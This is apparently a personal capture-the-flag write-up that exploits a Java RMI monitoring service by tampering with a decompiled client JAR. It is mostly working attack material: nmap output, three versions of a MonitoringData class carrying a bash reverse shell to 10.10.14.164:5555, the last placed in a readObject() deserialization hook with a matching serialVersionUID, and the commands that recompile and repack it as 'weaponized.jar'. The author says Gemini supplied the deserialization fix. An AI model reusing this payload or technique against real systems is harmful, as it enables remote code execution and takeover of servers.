









Here instead I was able to understand that java file is indeed connecting to this server?

```bash
ORT     STATE SERVICE  REASON         VERSION
1099/tcp open  java-rmi syn-ack ttl 64 Java RMI
|_rmi-dumpregistry: ERROR: Script execution failed (use -d to debug)
1337/tcp open  java-rmi syn-ack ttl 64 Java RMI
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.98%E=4%D=1/17%OT=1099%CT=%CU=%PV=Y%G=N%TM=696B8F74%P=x86_64-pc-linux-gnu)
SEQ(SP=106%GCD=1%ISR=10A%TI=I%CI=RD%TS=A)
SEQ(SP=FC%GCD=1%ISR=10C%TI=I%CI=RD%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=N)

Uptime guess: 12.644 days (since Sun Jan  4 23:05:11 2026)
TCP Sequence Prediction: Difficulty=262 (Good luck!)
IP ID Sequence Generation: Incrementing by 2

```

# Custom SW

Now I was playing with that JAR obtained by the Elon home folder and seems it can do some sort of commands on the machine:

```bash
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Synacktiv]
└─# java -jar monitoringClient.jar 172.22.1.250
[+] Valid credentials, storing the token.
[+] Monitoring data.
[+] sending collected data.
[+] Sucess : storing the monitoring data.

```

Now the idea I suspect is to recompile the software to perform a code execution istead?



This calls this MonitoringData class which performs the following commands:



So the idea here is to wrap a rce in that **monitor()**  function like this one:

```java
/*    */ package com.synacktiv;
/*    */ 
/*    */ import java.io.Serializable;
/*    */ 
/*    */ 
/*    */ 
/*    */ 
/*    */ 
/*    */ public class MonitoringData
/*    */   implements Serializable
/*    */ {
/* 12 */   private String networkConn = "";
/* 13 */   private String networkConnListen = "";
/* 14 */   private String process = "";
/*    */ 
/*    */   
/*    */   public void monitor() {
            String[] cmd = { "/bin/bash", "-c", "bash -i >& /dev/tcp/10.10.14.164/5555 0>&1" };
            SystemMonitor.execCmd(cmd);
/* 18 */     monitorNetworkConnListen();
/* 19 */     monitorNetworkConn();
/* 20 */     monitorProcess();
/*    */   }
/*    */ 
/*    */   
/*    */   private void monitorNetworkConnListen() {
/* 25 */     String[] cmd = { "/usr/bin/ss", "-tlp" };
/* 26 */     this.networkConnListen = SystemMonitor.execCmd(cmd);
/*    */   }
/*    */ 
/*    */   
/*    */   private void monitorNetworkConn() {
/* 31 */     String[] cmd = { "/usr/bin/ss", "-tp" };
/* 32 */     this.networkConn = SystemMonitor.execCmd(cmd);
/*    */   }
/*    */   
/*    */   private void monitorProcess() {
/* 36 */     String[] cmd = { "/usr/bin/ps", "-aux" };
/* 37 */     this.process = SystemMonitor.execCmd(cmd);
/*    */   }
/*    */   
/*    */   public String getNetworkConn() {
/* 41 */     return this.networkConn;
/*    */   }
/*    */   
/*    */   public String getNetworkConnListen() {
/* 45 */     return this.networkConnListen;
/*    */   }
/*    */   
/*    */   public String getProcess() {
/* 49 */     return this.process;
/*    */   }
/*    */ }


/* Location:              /home/millycash/Downloads/Synacktiv/monitoringClient.jar!/com/synacktiv/MonitoringData.class
 * Java compiler version: 11 (55.0)
 * JD-Core Version:       1.1.3
 */
```

Now I need to prepare the new binary for modify:

```bash
─$ mkdir Modified
                                                                                                                                                                          
┌──(millycash㉿kali-bello)-[~/Downloads/Synacktiv]
└─$ cd Modified 
                                                                                                                                                                          
                                                                                                                                                                          
┌──(millycash㉿kali-bello)-[~/Downloads/Synacktiv/Modified]
└─$ cp ../monitoringClient.jar .
                                                                                                                                                                          
┌──(millycash㉿kali-bello)-[~/Downloads/Synacktiv/Modified]
└─$ ll
total 1244
-rw-rw-r-- 1 millycash millycash 1269977 jan 17 18:39 monitoringClient.jar
                                                                                                                                                                          
┌──(millycash㉿kali-bello)-[~/Downloads/Synacktiv/Modified]
└─$ unzip monitoringClient.jar
Archive:  monitoringClient.jar
  inflating: META-INF/MANIFEST.MF    
   creating: org/
   creating: org/eclipse/
   creating: org/eclipse/jdt/
   creating: org/eclipse/jdt/internal/
   creating: org/eclipse/jdt/internal/jarinjarloader/
  inflating: org/eclipse/jdt/internal/jarinjarloader/JIJConstants.class  
  inflating: org/eclipse/jdt/internal/jarinjarloader/JarRsrcLoader$ManifestInfo.class  
  inflating: org/eclipse/jdt/internal/jarinjarloader/JarRsrcLoader.class  
  inflating: org/eclipse/jdt/internal/jarinjarloader/RsrcURLConnection.class  
  inflating: org/eclipse/jdt/internal/jarinjarloader/RsrcURLStreamHandler.class  
  inflating: org/eclipse/jdt/internal/jarinjarloader/RsrcURLStreamHandlerFactory.class  
  inflating: module-info.class       
   creating: com/
   creating: com/synacktiv/
  inflating: com/synacktiv/Main.class  
  inflating: com/synacktiv/MonitoringCore.class  
  inflating: com/synacktiv/SystemMonitor.class  
  inflating: com/synacktiv/IMonitoringService.class  
  inflating: com/synacktiv/MonitoringData.class  
  inflating: json-lib-2.4-jdk15.jar  
  inflating: commons-beanutils-1.8.0.jar  
  inflating: commons-collections-3.2.1.jar  
  inflating: commons-lang-2.5.jar    
  inflating: commons-logging-1.1.1.jar  
  inflating: ezmorph-1.0.6.jar       
                                                                                                                                                                          
┌──(millycash㉿kali-bello)-[~/Downloads/Synacktiv/Modified]
└─$ ll
total 2632
drwxrwxr-x 3 millycash millycash    4096 feb  3  2021 com
-rw-rw-r-- 1 millycash millycash  231320 feb  3  2021 commons-beanutils-1.8.0.jar
-rw-rw-r-- 1 millycash millycash  575389 feb  3  2021 commons-collections-3.2.1.jar
-rw-rw-r-- 1 millycash millycash  279193 feb  3  2021 commons-lang-2.5.jar
-rw-rw-r-- 1 millycash millycash   60686 feb  3  2021 commons-logging-1.1.1.jar
-rw-rw-r-- 1 millycash millycash   86487 feb  3  2021 ezmorph-1.0.6.jar
-rw-rw-r-- 1 millycash millycash  159123 feb  3  2021 json-lib-2.4-jdk15.jar
drwxrwxr-x 2 millycash millycash    4096 jan 17 18:39 META-INF
-rw-rw-r-- 1 millycash millycash     189 feb  3  2021 module-info.class
-rw-rw-r-- 1 millycash millycash 1269977 jan 17 18:39 monitoringClient.jar
drwxrwxr-x 3 millycash millycash    4096 feb  3  2021 org
                                                                   
```

And now I can overwrite the file with the new class:

&nbsp;

```bash
┌──(millycash㉿kali-bello)-[~/Downloads/Synacktiv/Sourced]
└─$ cp com/synacktiv/MonitoringData.class ../Modified/com/synacktiv 
                                                                                                                                                                         
┌──(millycash㉿kali-bello)-[~/Downloads/Synacktiv/Sourced]
└─$ ll ../Modified/com/synacktiv
total 20
-rw-rw-r-- 1 millycash millycash  423 feb  3  2021 IMonitoringService.class
-rw-rw-r-- 1 millycash millycash 1252 feb  3  2021 Main.class
-rw-rw-r-- 1 millycash millycash 2729 feb  3  2021 MonitoringCore.class
-rw-rw-r-- 1 millycash millycash 1266 jan 17 18:44 MonitoringData.class
-rw-rw-r-- 1 millycash millycash 1701 feb  3  2021 SystemMonitor.class

```

And repack it!

```bash
└─$ jar cvfm ../weaponized.jar META-INF/MANIFEST.MF .
added manifest
added module-info: module-info.class
ignoring entry META-INF/
ignoring entry META-INF/MANIFEST.MF
adding: com/(in = 0) (out= 0)(stored 0%)
adding: com/synacktiv/(in = 0) (out= 0)(stored 0%)
adding: com/synacktiv/IMonitoringService.class(in = 423) (out= 228)(deflated 46%)
adding: com/synacktiv/Main.class(in = 1252) (out= 661)(deflated 47%)
adding: com/synacktiv/MonitoringCore.class(in = 2729) (out= 1319)(deflated 51%)
adding: com/synacktiv/MonitoringData.class(in = 1266) (out= 666)(deflated 47%)
adding: com/synacktiv/SystemMonitor.class(in = 1701) (out= 920)(deflated 45%)
adding: commons-beanutils-1.8.0.jar(in = 231320) (out= 209668)(deflated 9%)
adding: commons-collections-3.2.1.jar(in = 575389) (out= 504275)(deflated 12%)
adding: commons-lang-2.5.jar(in = 279193) (out= 260819)(deflated 6%)
adding: commons-logging-1.1.1.jar(in = 60686) (out= 55987)(deflated 7%)
adding: ezmorph-1.0.6.jar(in = 86487) (out= 79919)(deflated 7%)
adding: json-lib-2.4-jdk15.jar(in = 159123) (out= 145395)(deflated 8%)
adding: monitoringClient.jar(in = 1269977) (out= 1268229)(deflated 0%)
adding: org/(in = 0) (out= 0)(stored 0%)
adding: org/eclipse/(in = 0) (out= 0)(stored 0%)
adding: org/eclipse/jdt/(in = 0) (out= 0)(stored 0%)
adding: org/eclipse/jdt/internal/(in = 0) (out= 0)(stored 0%)
adding: org/eclipse/jdt/internal/jarinjarloader/(in = 0) (out= 0)(stored 0%)
adding: org/eclipse/jdt/internal/jarinjarloader/JIJConstants.class(in = 1018) (out= 572)(deflated 43%)
adding: org/eclipse/jdt/internal/jarinjarloader/JarRsrcLoader$ManifestInfo.class(in = 696) (out= 340)(deflated 51%)
adding: org/eclipse/jdt/internal/jarinjarloader/JarRsrcLoader.class(in = 5106) (out= 2555)(deflated 49%)
adding: org/eclipse/jdt/internal/jarinjarloader/RsrcURLConnection.class(in = 1588) (out= 793)(deflated 50%)
adding: org/eclipse/jdt/internal/jarinjarloader/RsrcURLStreamHandler.class(in = 1927) (out= 937)(deflated 51%)
adding: org/eclipse/jdt/internal/jarinjarloader/RsrcURLStreamHandlerFactory.class(in = 1175) (out= 579)(deflated 50%)

```

And now I can see that the weaponized version has the right code in it:



And "the moment of thruth..." It is not working cause it is executing on my machine instead of the target one so I asked Gemini to help me and he tipset to use this one instead.

```java
/*    */ package com.synacktiv;
import java.io.IOException;
import java.io.ObjectInputStream;
/*    */ 
/*    */ import java.io.Serializable;
/*    */ 
/*    */ 
/*    */ 
/*    */ 
/*    */ 
/*    */ public class MonitoringData
/*    */   implements Serializable
/*    */ {
/* 12 */   private String networkConn = "";
/* 13 */   private String networkConnListen = "";
/* 14 */   private String process = "";
/*    */ 
            private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException {
                    in.defaultReadObject(); // This tells Java to do the normal loading first
                    try {
                        // This is the payload that will trigger ONLY on the backend
                        Runtime.getRuntime().exec(new String[]{"/bin/bash", "-c", "bash -i >& /dev/tcp/10.10.14.164/5555 0>&1"});
                    } catch (Exception e) {}
                }
/*    */   
/*    */   public void monitor() {
/* 18 */     monitorNetworkConnListen();
/* 19 */     monitorNetworkConn();
/* 20 */     monitorProcess();
/*    */   }
/*    */ 
/*    */   
/*    */   private void monitorNetworkConnListen() {
/* 25 */     String[] cmd = { "/usr/bin/ss", "-tlp" };
/* 26 */     this.networkConnListen = SystemMonitor.execCmd(cmd);
/*    */   }
/*    */ 
/*    */   
/*    */   private void monitorNetworkConn() {
/* 31 */     String[] cmd = { "/usr/bin/ss", "-tp" };
/* 32 */     this.networkConn = SystemMonitor.execCmd(cmd);
/*    */   }
/*    */   
/*    */   private void monitorProcess() {
/* 36 */     String[] cmd = { "/usr/bin/ps", "-aux" };
/* 37 */     this.process = SystemMonitor.execCmd(cmd);
/*    */   }
/*    */   
/*    */   public String getNetworkConn() {
/* 41 */     return this.networkConn;
/*    */   }
/*    */   
/*    */   public String getNetworkConnListen() {
/* 45 */     return this.networkConnListen;
/*    */   }
/*    */   
/*    */   public String getProcess() {
/* 49 */     return this.process;
/*    */   }
/*    */ }


/* Location:              /home/millycash/Downloads/Synacktiv/monitoringClient.jar!/com/synacktiv/MonitoringData.class
 * Java compiler version: 11 (55.0)
 * JD-Core Version:       1.1.3
 */
```

And now I am copiling the new class and copying on the modified code:

```bash
┌──(millycash㉿kali-bello)-[~/Downloads/Synacktiv/Sourced]
└─$ javac -cp "../monitoringClient.jar" com/synacktiv/MonitoringData.java
                                                                                                                                                                                                                                                                                                                               
                                                                                                                                                                                                                                                                                                                               
                                                                                                                                                                                                                                                                                                                               
┌──(millycash㉿kali-bello)-[~/Downloads/Synacktiv/Sourced]
└─$ cp com/synacktiv/MonitoringData.class ../Modified/com/synacktiv/
                                                                                                                                                                                                                                                                                                                               
┌──(millycash㉿kali-bello)-[~/Downloads/Synacktiv/Sourced]
└─$ ll ../Modified/com/synacktiv/
total 20
-rw-rw-r-- 1 millycash millycash  423 feb  3  2021 IMonitoringService.class
-rw-rw-r-- 1 millycash millycash 1252 feb  3  2021 Main.class
-rw-rw-r-- 1 millycash millycash 2729 feb  3  2021 MonitoringCore.class
-rw-rw-r-- 1 millycash millycash 1705 jan 17 19:26 MonitoringData.class
-rw-rw-r-- 1 millycash millycash 1701 feb  3  2021 SystemMonitor.class

```

And again compress it in a jar:

```bash
└─$ jar cvfm ../weaponized.jar META-INF/MANIFEST.MF .
added manifest
added module-info: module-info.class
ignoring entry META-INF/
ignoring entry META-INF/MANIFEST.MF
adding: com/(in = 0) (out= 0)(stored 0%)
adding: com/synacktiv/(in = 0) (out= 0)(stored 0%)
adding: com/synacktiv/IMonitoringService.class(in = 423) (out= 228)(deflated 46%)
adding: com/synacktiv/Main.class(in = 1252) (out= 661)(deflated 47%)
adding: com/synacktiv/MonitoringCore.class(in = 2729) (out= 1319)(deflated 51%)
adding: com/synacktiv/MonitoringData.class(in = 1705) (out= 890)(deflated 47%)
adding: com/synacktiv/SystemMonitor.class(in = 1701) (out= 920)(deflated 45%)
adding: commons-beanutils-1.8.0.jar(in = 231320) (out= 209668)(deflated 9%)
adding: commons-collections-3.2.1.jar(in = 575389) (out= 504275)(deflated 12%)
adding: commons-lang-2.5.jar(in = 279193) (out= 260819)(deflated 6%)
adding: commons-logging-1.1.1.jar(in = 60686) (out= 55987)(deflated 7%)
adding: ezmorph-1.0.6.jar(in = 86487) (out= 79919)(deflated 7%)
adding: json-lib-2.4-jdk15.jar(in = 159123) (out= 145395)(deflated 8%)
adding: monitoringClient.jar(in = 1269977) (out= 1268229)(deflated 0%)
adding: org/(in = 0) (out= 0)(stored 0%)
adding: org/eclipse/(in = 0) (out= 0)(stored 0%)
adding: org/eclipse/jdt/(in = 0) (out= 0)(stored 0%)
adding: org/eclipse/jdt/internal/(in = 0) (out= 0)(stored 0%)
adding: org/eclipse/jdt/internal/jarinjarloader/(in = 0) (out= 0)(stored 0%)
adding: org/eclipse/jdt/internal/jarinjarloader/JIJConstants.class(in = 1018) (out= 572)(deflated 43%)
adding: org/eclipse/jdt/internal/jarinjarloader/JarRsrcLoader$ManifestInfo.class(in = 696) (out= 340)(deflated 51%)
adding: org/eclipse/jdt/internal/jarinjarloader/JarRsrcLoader.class(in = 5106) (out= 2555)(deflated 49%)
adding: org/eclipse/jdt/internal/jarinjarloader/RsrcURLConnection.class(in = 1588) (out= 793)(deflated 50%)
adding: org/eclipse/jdt/internal/jarinjarloader/RsrcURLStreamHandler.class(in = 1927) (out= 937)(deflated 51%)
adding: org/eclipse/jdt/internal/jarinjarloader/RsrcURLStreamHandlerFactory.class(in = 1175) (out= 579)(deflated 50%)

```

And now I can see the new code:



But it still fails:



And apparently again (Gemini) tells me the Serialized function expects a hardcoded serialVersionUID so this is the updated **MonitoringData.class** :

```java
/*    */ package com.synacktiv;
import java.io.IOException;
import java.io.ObjectInputStream;
/*    */ 
/*    */ import java.io.Serializable;
/*    */ 
/*    */ 
/*    */ 
/*    */ 
/*    */ 
/*    */ public class MonitoringData implements Serializable
/*    */ {
           private static final long serialVersionUID = 436182591648840341L;
/* 12 */   private String networkConn = "";
/* 13 */   private String networkConnListen = "";
/* 14 */   private String process = "";
/*    */ 
            private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException {
                    in.defaultReadObject(); // This tells Java to do the normal loading first
                    try {
                        // This is the payload that will trigger ONLY on the backend
                        Runtime.getRuntime().exec(new String[]{"/bin/bash", "-c", "bash -i >& /dev/tcp/10.10.14.164/5555 0>&1"});
                    } catch (Exception e) {}
                }
/*    */   
/*    */   public void monitor() {
/* 18 */     monitorNetworkConnListen();
/* 19 */     monitorNetworkConn();
/* 20 */     monitorProcess();
/*    */   }
/*    */ 
/*    */   
/*    */   private void monitorNetworkConnListen() {
/* 25 */     String[] cmd = { "/usr/bin/ss", "-tlp" };
/* 26 */     this.networkConnListen = SystemMonitor.execCmd(cmd);
/*    */   }
/*    */ 
/*    */   
/*    */   private void monitorNetworkConn() {
/* 31 */     String[] cmd = { "/usr/bin/ss", "-tp" };
/* 32 */     this.networkConn = SystemMonitor.execCmd(cmd);
/*    */   }
/*    */   
/*    */   private void monitorProcess() {
/* 36 */     String[] cmd = { "/usr/bin/ps", "-aux" };
/* 37 */     this.process = SystemMonitor.execCmd(cmd);
/*    */   }
/*    */   
/*    */   public String getNetworkConn() {
/* 41 */     return this.networkConn;
/*    */   }
/*    */   
/*    */   public String getNetworkConnListen() {
/* 45 */     return this.networkConnListen;
/*    */   }
/*    */   
/*    */   public String getProcess() {
/* 49 */     return this.process;
/*    */   }
/*    */ }


/* Location:              /home/millycash/Downloads/Synacktiv/monitoringClient.jar!/com/synacktiv/MonitoringData.class
 * Java compiler version: 11 (55.0)
 * JD-Core Version:       1.1.3
 */
```

And again same crap as before to compile to class and compress to a jar:

```java
┌──(millycash㉿kali-bello)-[~/Downloads/Synacktiv/Sourced]
└─$ rm com/synacktiv/MonitoringData.class 
                                                                                                                                                                                                                                                                                                                               
┌──(millycash㉿kali-bello)-[~/Downloads/Synacktiv/Sourced]
└─$ javac -cp "../monitoringClient.jar" com/synacktiv/MonitoringData.java
                                                                                                                                                                                                                                                                                                                               
┌──(millycash㉿kali-bello)-[~/Downloads/Synacktiv/Sourced]
└─$ ls com
synacktiv
                                                                                                                                                                                                                                                                                                                               
┌──(millycash㉿kali-bello)-[~/Downloads/Synacktiv/Sourced]
└─$ ls com/synacktiv/                        
IMonitoringService.java  Main.java  MonitoringCore.java  MonitoringData.class  MonitoringData.java  SystemMonitor.java
                                                                                                                                                                                                                                                                                                                               
┌──(millycash㉿kali-bello)-[~/Downloads/Synacktiv/Sourced]
└─$ cp com/synacktiv/MonitoringData.class ../Modified/com/synacktiv/
                                                                                                                                                                                                                                                                                                                               
┌──(millycash㉿kali-bello)-[~/Downloads/Synacktiv/Sourced]
└─$ jar cvfm ../weaponized.jar META-INF/MANIFEST.MF .
added manifest
ignoring entry META-INF/
ignoring entry META-INF/MANIFEST.MF
adding: com/(in = 0) (out= 0)(stored 0%)
adding: com/synacktiv/(in = 0) (out= 0)(stored 0%)
adding: com/synacktiv/IMonitoringService.java(in = 547) (out= 275)(deflated 49%)
adding: com/synacktiv/Main.java(in = 1070) (out= 432)(deflated 59%)
adding: com/synacktiv/MonitoringCore.java(in = 2853) (out= 771)(deflated 72%)
adding: com/synacktiv/MonitoringData.class(in = 1769) (out= 943)(deflated 46%)
adding: com/synacktiv/MonitoringData.java(in = 2265) (out= 762)(deflated 66%)
adding: com/synacktiv/SystemMonitor.java(in = 1426) (out= 542)(deflated 61%)
adding: commons-beanutils-1.8.0.jar.src.zip(in = 154028) (out= 132908)(deflated 13%)
adding: commons-collections-3.2.1.jar.src.zip(in = 363452) (out= 309433)(deflated 14%)
adding: commons-lang-2.5.jar.src.zip(in = 198796) (out= 183162)(deflated 7%)
adding: commons-logging-1.1.1.jar.src.zip(in = 41770) (out= 37944)(deflated 9%)
adding: ezmorph-1.0.6.jar.src.zip(in = 66049) (out= 57068)(deflated 13%)
adding: json-lib-2.4-jdk15.jar.src.zip(in = 95074) (out= 86447)(deflated 9%)
adding: module-info.java(in = 20) (out= 22)(deflated -10%)
adding: org/(in = 0) (out= 0)(stored 0%)
adding: org/eclipse/(in = 0) (out= 0)(stored 0%)
adding: org/eclipse/jdt/(in = 0) (out= 0)(stored 0%)
adding: org/eclipse/jdt/internal/(in = 0) (out= 0)(stored 0%)
adding: org/eclipse/jdt/internal/jarinjarloader/(in = 0) (out= 0)(stored 0%)
adding: org/eclipse/jdt/internal/jarinjarloader/JIJConstants.java(in = 1015) (out= 428)(deflated 57%)
